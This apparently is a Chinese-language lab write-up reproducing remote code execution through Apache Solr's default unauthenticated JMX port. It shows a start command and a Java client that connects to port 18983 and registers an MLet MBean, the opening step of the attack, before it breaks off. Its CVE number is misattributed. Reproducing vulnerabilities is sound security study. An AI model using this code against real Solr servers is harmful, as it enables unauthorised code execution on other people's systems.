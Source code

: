 
# Apache Solr RCE复现

漏洞编号：CVE-2019-0192

影响版本：Apache Solr8.1.1和8.2.0版本

漏洞概述：Apache Solr的8.1.1和8.2.0版本的自带配置文件solr.in.sh中存在不安全的选项ENABLE_REMOTE_JMX_OPTS="true"。如果受害者使用了该默认配置，则会在默认端口18983开放JMX服务，且默认未开启认证。任何可访问此端口的攻击者可利用此漏洞向受影响服务发起攻击，执行任意代码。

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果

复现环境：Solr 8.20、Java环境、MAC OS系统

注：该漏洞仅对Linux系统的Solr有影响，在Windows系统中不受影响。

https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/8.2.0/solr-8.2.0.zip

切换到bin目录启动Solr

```javascript
./solr  start  -force
```

![image-20221121153135094](images/10.png)

![image-20221121153143677](images/11.png)

## 第一种方式

因为JMX并没有开启服务认证，所以我们可以直接去连接18983端口的MBean

![image-20221122102426063](images/12.png)

和之前一样，从客户端远程注册一个MLet

```
package MBean;


import javax.management.MBeanServerConnection;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;

public class client {
    public static void main(String[] args) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:18983/jmxrmi");
        JMXConnector jmxConnector = JMXConnectorFactory.connect(jmxServiceURL,null);
        MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();
        mBeanServerConnection.createMBean("javax.management.loading.MLet",null);
    }
}
```
